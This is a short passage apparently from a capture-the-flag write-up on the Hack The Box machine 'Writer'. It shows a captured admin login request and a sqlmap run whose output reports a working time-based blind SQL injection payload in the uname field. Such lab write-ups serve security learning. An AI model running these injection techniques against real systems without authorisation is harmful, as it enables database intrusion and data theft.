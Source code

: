 ```plaintext
POST /administrative HTTP/1.1
Host: writer.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://writer.htb/administrative
Content-Type: application/x-www-form-urlencoded
Content-Length: 26
Origin: http://writer.htb
Connection: close
Upgrade-Insecure-Requests: 1

uname=admin&password=admin
```

Let's see what sqlmap can do with this as I have very limited experience with SQL injection:

```Awk
└─# sqlmap -u "http://writer.htb/administrative" --data "uname=user&password=pass" --risk 3
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.5.11#stable}
|_ -| . [)]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:04:57 /2021-12-11/

[10:04:58] [INFO] resuming back-end DBMS 'mysql'
[10:04:58] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: uname (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: uname=user' AND (SELECT 6202 FROM (SELECT(SLEEP(5)))kXjZ) AND 'wrdL'='wrdL&password=pass
---
[10:04:58] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 20.04 or 19.10 (eoan or focal)
web application technology: Apache 2.4.41
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[10:04:58] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/writer.htb'

[*] ending @ 10:04:58 /2021-12-11/
```
